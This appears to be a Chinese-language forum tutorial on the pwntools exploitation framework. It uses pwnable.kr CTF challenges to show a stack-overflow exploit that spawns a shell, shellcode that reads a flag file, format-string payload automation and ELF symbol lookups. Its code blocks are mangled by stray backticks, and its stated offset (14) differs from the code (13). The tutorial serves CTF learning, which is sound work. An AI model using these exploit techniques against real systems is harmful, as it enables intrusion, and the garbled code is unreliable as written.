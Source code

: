 # PWNTOOLS的使用

**pwntools**是一个二进制利用框架。官方文档提供了详细的**api**规范。由于本文只是用来介绍**pwntools**使用方法，不会过于详细的讲解各种二进制漏洞攻击技术。

## Pwntools的“Hello World”

栈溢出无疑是二进制攻击的“Hello World”。这里，我们用pwnable.kr的bof来进行展示。

```
`#include <stdio.h>``#include <string.h>``#include <stdlib.h>``void func(``int` `key){``    ``char overflowme[``32``];``    ``printf(``"overflow me : "``);``    ``gets(overflowme);    ``/``/` `smash me!``    ``if``(key ``=``=` `0xcafebabe``){``        ``system(``"/bin/sh"``);``    ``}``    ``else``{``        ``printf(``"Nah..\n"``);``    ``}``}``int` `main(``int` `argc, char``*` `argv[]){``    ``func(``0xdeadbeef``);``    ``return` `0``;``}`
```

pwntools脚本：

```
`from` `pwn ``import` `*``c ``=` `remote(``"pwnable.kr"``, ``9000``) ``c.sendline(``"AAAA"` `*` `13` `+` `p32(``0xcafebabe``))``c.interactive()`
```

源码简洁明了，我们只需要将**key**改写成`0xcafebabe`。

现在我们重新看回pwntools脚本。第一行将pwntools提供的工具引入到我们的python上下文中。

`remote("一个域名或者ip地址", 端口)` 会连接到我们指定的地址及端口。 然后该函数会返回remote对象 (这里，我们将该对象保存到了变量 `c`). remote对象主要用来进行对远程主机的输入输出. 它有如下几个方法：

- `send(payload)` 发送payload
- `sendline(payload)` 发送payload，并进行换行（末尾**\n**）
- `sendafter(some_string, payload)` 接收到 some_string 后, 发送你的 payload
- `recvn(N)` 接受 N(数字) 字符
- `recvline()` 接收一行输出
- `recvlines(N)` 接收 N(数字) 行输出
- `recvuntil(some_string)` 接收到 some_string 为止

在第三行中, `p32()` 可以让我们转换整数到小端序格式. `p32` 转换4字节. `p64` 和 `p16` 则分别转换 8 bit 和 2 bit 数字. `c.sendline` 将我们的payload发送到远程主机. `"AAAA" * 14` 是我们到**key**的偏移量. Pwntools 不能自动运算偏移量，用户需要自行计算。

最后，我们成功getshell了. 这时，你可能想发送命令进行交互. `c.interactive()` 允许我们在终端里将命令传送到远程服务器. Pwntools 会自动接收输出并回显 .

![图片描述](https://bbs.pediy.com/upload/attach/201901/3_3KDCPDBYDBFWSMH.png)

## 写 Shellcode

下一题是pwnable.kr的asm. 你需要用 `ssh -p2222 asm@pwnable.kr` 并输入密码 `guest` 来查看可执行文件和源码. 这里，我们只展示利用代码：

```
`from` `pwn ``import` `*` `p ``=` `process(``"./asm"``)``context.log_level ``=` `'DEBUG'``gdb.attach(p)` `context(arch``=``'amd64'``, os``=``'linux'``)` `shellcode ``=` `shellcraft.amd64.pushstr(``"this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong"``)``shellcode ``+``=` `shellcraft.amd64.linux.``open``(``'rsp'``,``0``,``0``)``shellcode ``+``=` `shellcraft.amd64.linux.read(``'rax'``,``'rsp'``,``0``)``shellcode ``+``=` `shellcraft.amd64.linux.write(``1``, ``'rsp'``, ``100``)` `p.recvuntil(``'shellcode: '``)``p.send(asm(shellcode))``log.success(p.recvall())`
```

我们这里用到了新的api: `process()`, `contex.log_level`, `gdb.attach`, 和 `shellcraft`.
`process` 和 `remote` 累死.  `remote` 连接远程主机, `process` 则通过你声明的二进制文件路径在本地创建新的进程. 除了 I/O, `process` 返回的对象可以通过 `gdb.attach(p)` 将进程attach到gdb上. Attach 之后,  gdb 便可以调试该程序来 (设置 breakpoints, 查看 stack, 以及简单的反汇编).

![图片描述](https://bbs.pediy.com/upload/attach/201901/3_QGGWTB3XTZ6JTC5.png)

> 提醒一下，如果你想在命令行中使用gdb.attach(), 便需要安装并运行 tmux. [更多关于tmux的信息](https://hackernoon.com/a-gentle-introduction-to-tmux-8d784c404340).

当我们想查看服务器输出时，并不需要在每个 `recvline` 或者 `recvuntil` 前加 `print`. 当 `context.log_level` 被设置为 `"DEBUG"` , 我们的输入和服务器的输出会被直接输出.

`shellcraft` 是一个帮忙生成shellcode的类. 在我们的例子中, 我们 *open* 了一个文件并 *read* 文件到 *stdout*. 关于这个类更多的文档, 你可以查阅 [官方文档](http://docs.pwntools.com/en/stable/shellcraft.html).

## 格式化漏洞自动化

我没有找到一个比较容易做的格式化漏洞题目，所以干脆用了官方文档的例子：

```
`from` `pwn ``import` `*``import` `tempfile` `program ``=` `tempfile.mktemp()``source  ``=` `program ``+` `".c"``write(source, ``'''``#include <stdio.h>``#include <stdlib.h>``#include <unistd.h>``#include <sys/mman.h>``#define MEMORY_ADDRESS ((void*)0x11111000)``#define MEMORY_SIZE 1024``#define TARGET ((int *) 0x11111110)``int main(int argc, char const *argv[])``{``       ``char buff[1024];``       ``void *ptr = NULL;``       ``int *my_var = TARGET;``       ``ptr = mmap(MEMORY_ADDRESS, MEMORY_SIZE, PROT_READ|PROT_WRITE, MAP_FIXED|MAP_ANONYMOUS|MAP_PRIVATE, 0, 0);``       ``if(ptr != MEMORY_ADDRESS)``       ``{``               ``perror("mmap");``               ``return EXIT_FAILURE;``       ``}``       ``*my_var = 0x41414141;``       ``write(1, &my_var, sizeof(int *));``       ``scanf("%s", buff);``       ``dprintf(2, buff);``       ``write(1, my_var, sizeof(int));``       ``return 0;``}'''``)``cmdline ``=` `[``"gcc"``, source, ``"-Wno-format-security"``, ``"-m32"``, ``"-o"``, program]``process(cmdline).wait_for_close()``def` `exec_fmt(payload):``    ``p ``=` `process(program)``    ``p.sendline(payload)``    ``return` `p.recvall()` `autofmt ``=` `FmtStr(exec_fmt)``offset ``=` `autofmt.offset``p ``=` `process(program, stderr``=``PIPE)``addr ``=` `u32(p.recv(``4``))``payload ``=` `fmtstr_payload(offset, {addr: ``0x1337babe``})``p.sendline(payload)``print` `hex``(unpack(p.recv(``4``)))`
```

有了 `FmtStr`, 我们不用算偏移量算到疯. 我们需要先构造一个可以接收我们输入并返回格式化字符串输出的函数. 接着，我们可以得到 `autofmt`. 这个对象包含 `offset`, 即算好的偏移量. `fmtstr_payload(offset, {address: value})` 帮我们生成最后的payload. 第一个参数 `offset` 用 `autofmt.offset` 算好的即可. 然后, 我们需要声明 `{address: value}` 来覆盖address的内容成对应的value. 我们还可以同时改写多个地址: `{address1: value1, address2:value2,..., address: valueN}`.

有些情况不能自动生成payload. 以下文档介绍了如何手动生成payload [fmtstr_payload](http://docs.pwntools.com/en/stable/fmtstr.html#pwnlib.fmtstr.fmtstr_payload).

## 使用 ELF()

有些题目给了我们libc. 用 `gdb> x function1 — function2` 算偏移量太麻烦了, 因此有了 `ELF`.

```
`from` `pwn ``import` `*` `e ``=` `ELF(``'./example_file'``)``print` `hex``(e.address)  ``# 0x400000``print` `hex``(e.symbols[``'write'``]) ``# 0x401680``print` `hex``(e.got[``'write'``]) ``# 0x60b070``print` `hex``(e.plt[``'write'``]) ``# 0x401680``offset ``=` `e.symbols[``'system'``] ``-` `e.symbols[``'printf'``] ``# calculate offset``binsh_address ``=` `next``(e.search(``'/bin/sh\x00'``)) ``# find address which contains /bin/sh`
```

和 `process()` 一样, 我们只用将路径给 `ELF(path)` 即可分析 ELF.

我们有以下几种方法操纵ELF:

- `symbols['a_function']` 找到 `a_function` 的地址
- `got['a_function']` 找到 `a_function`的 got 
- `plt['a_function']` 找到 `a_function` 的 plt
- `next(e.search("some_characters"))` 找到包含 `some_characters`（字符串，汇编代码或者某个数值）的地址. 

## 总结

Pwntools 是一套十分强大的工具. 在本文中, 我介绍了最常用的几个api, 但 pwntools 还有很多其他强大的api，诸如 qemu, adb. 各位可通过官方文档进行剩余的学习
